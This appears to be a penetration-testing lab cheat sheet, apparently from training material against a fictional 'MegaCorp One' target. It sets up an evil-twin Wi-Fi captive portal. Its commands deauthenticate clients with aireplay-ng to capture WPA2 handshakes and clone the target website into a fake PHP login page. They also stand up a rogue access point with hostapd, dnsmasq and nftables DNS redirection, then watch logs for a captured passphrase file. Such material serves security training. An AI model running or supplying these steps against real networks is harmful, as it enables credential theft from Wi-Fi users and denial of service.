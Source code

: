 ## Captive Portal
```text
sudo airodump-ng -w discovery --output-format pcap wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab
```

#deauth to capture handshakes on seperate terminal
```text
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```
grab handshake to use later


## Building the Captive Portal
```text
sudo apt install apache2 libapache2-mod-php
```

## recursive download for background images - this will download to www.megacorpone.com
```text
wget -r -l2 https://www.megacorpone.com
```
## copy data over to portal
```text
mkdir /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```
```text
nano /var/www/html/portal/index.php
nano /var/www/html/portal/login_check.php
nano /var/www/html/portal/login_check2.php
sudo chmod 644 *.php
```
```text
mkdir /data
sudo chown www-data:www-data /data
```

## network
```text
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```
```text
sudo systemctl enable dnsmasq && sudo systemctl enable hostapd
sudo pkill dnsmasq
```
```text
sudo ufw allow in 53 tcp
sudo ufw allow in 53 udp
sudo ufw allow in 67 udp
```
```text
sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --test
sudo dnsmasq --conf-file=mco-dnsmasq.conf
##debugging
sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --log-debug -d
```
```text
sudo systemctl status dnsmasq.service
sudo netstat -lnp
sudo cat /var/log/dnsmasq.log
```

```text
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
```text
sudo nft list table ip nat
table ip nat {
        chain PREROUTING {
                type nat hook prerouting priority dstnat; policy accept;
                iifname "wlan0" udp dport 53 counter packets 0 bytes 0 redirect to :53
        }
}
```


## Apache2
```text
nano etc/apache2/sites-enabled/000-default.conf
sudo a2enmod rewrite
sudo a2enmod alias
sudo a2enmod ssl
sudo systemctl restart apache2
```


## hostapd
```text
nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf
```

sudo tail -f /var/log/apache2/access.log
sudo find /tmp/ -iname passphrase.txt
